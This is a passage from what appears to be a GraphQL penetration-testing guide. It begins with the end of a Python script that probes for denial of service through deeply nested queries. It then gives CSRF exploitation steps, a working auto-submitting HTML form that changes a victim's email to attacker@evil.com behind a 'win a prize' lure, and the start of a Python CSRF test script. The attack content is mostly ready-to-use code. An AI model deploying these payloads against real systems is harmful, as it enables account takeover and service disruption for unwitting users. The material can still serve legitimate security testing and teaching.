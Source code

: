                print(f"[*] Testing query with nesting depth {depth}")
               start_time = time.time()
               
               response = requests.post(url, headers=headers, json={"query": full_query})
               
               end_time = time.time()
               execution_time = end_time - start_time
               
               print(f"[*] Execution time: {execution_time:.2f} seconds")
               print(f"[*] Status code: {response.status_code}")
               
               if response.status_code != 200 or execution_time > 10:
                   print(f"[+] Potential DoS vulnerability at depth {depth}")
                   print(f"[+] Execution time: {execution_time:.2f} seconds")
                   break
               
               print("-" * 50)
       
       # Example usage
       test_nested_query_dos("https://target.com/graphql")
       ```

  - **CSRF and authentication issues**
    1. **GraphQL CSRF exploitation**:
       - Step 1: Identify if the GraphQL endpoint accepts non-JSON content types
       - Step 2: Test if it accepts GET requests or form-encoded POST requests
       - Step 3: Check if CSRF tokens are required for mutations
       - Step 4: Craft a CSRF proof of concept exploit
       - Step 5: Test the exploit to verify vulnerability
       - Example CSRF form for GraphQL:
       ```html
       <html>
         <body>
           <form action="https://target.com/graphql" method="POST" enctype="application/x-www-form-urlencoded">
             <input type="hidden" name="query" value="mutation { updateEmail(email: &quot;attacker@evil.com&quot;) { success } }">
             <input type="submit" value="Click me to win a prize!">
           </form>
           <script>document.forms[0].submit();</script>
         </body>
       </html>
       ```
       - Python script to test for CSRF vulnerability:
       ```python
       import requests
       
       def test_graphql_csrf(url):
           print("[*] Testing for GraphQL CSRF vulnerability")
           
           # Test 1: GET request with query parameter
           print("[*] Test 1: GET request with query parameter")
           get_query = "mutation{updateEmail(email:\"test@example.com\"){success}}"
           get_url = f"{url}?query={get_query}"
           
